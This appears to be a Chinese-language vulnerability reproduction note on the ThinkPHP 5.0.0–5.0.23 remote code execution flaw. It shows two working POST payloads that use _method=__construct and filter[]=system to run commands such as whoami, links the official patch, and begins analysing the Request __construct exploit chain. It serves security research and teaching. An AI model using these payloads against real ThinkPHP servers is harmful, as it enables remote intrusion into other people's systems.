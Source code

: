 # ThinkPHP 5.0.0~5.0.23 RCE 漏洞复现.md



## 利用条件



 ThinkPHP 5.0.0~5.0.23 

## exp

```
http://127.0.0.1/index.php?s=captcha

post_ex1：_method=__construct&filter[]=system&method=get&get[]=whoami
post_exp2：_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami
```





## 过程复现(exp1)

 以 thinkphp 5.0.22 完整版为复现环境(为啥要完整版等会说)，下载地址：http://www.thinkphp.cn/down/1260.html 

 官方补丁地址：https://github.com/top-think/framework/commit/4a4b5e64fa4c46f851b4004005bff5f3196de003 



![image.png](https://i.loli.net/2020/01/30/LohuXMViDeg9AxT.png)



其中`$this->{$this->method}($_POST);`可以执行任意接受一个数组的request方法,`$this->method`可以通过控制`$_POST['_method']`来控制

查找相关方法后选定`__construct`来修改request属性再结合其他方法形成利用链

```php
protected function __construct($options = [])
    {
        foreach ($options as $name => $item) {
            if (property_exists($this, $name)) {
                $this->$name = $item;
            }
        }
        if (is_null($this->filter)) {
            $this->filter = Config::get('default_filter');
        }

        // 保存 php://input
        $this->input = file_get_contents('php://input');
    }
```
